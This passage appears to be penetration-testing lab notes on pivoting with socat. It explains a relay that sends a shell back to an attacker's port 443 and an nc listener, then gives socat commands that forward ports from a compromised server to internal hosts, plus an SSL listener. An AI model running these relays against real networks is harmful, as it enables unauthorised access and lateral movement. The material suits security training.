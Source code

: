 - The listener i set up should now retrieve the connection.

---

A brief explanation of the above command:

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

---

**Port Forwarding -- Easy**

- if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:
```php
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

- We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

**Port Forwarding -- Quiet**

First of all, on our own attacking machine, we issue the following command:
```php
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

- This opens up two ports: 8000 and 8001, creating a local port relay

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```php
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
```php
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

**SSL**

```php
./socat OPENSSL-LISTEN:4433,reuseaddr,cert=./cert.pem,cafile=./ca.cert.pem,key=./key.pem,verify=0 STDOUT
```

**Motivation**: When working with secure connections, it may be necessary to create a listening socket that uses SSL/TLS encryption. This can be useful for implementing secure communication channels or testing SSL/TLS-enabled services.
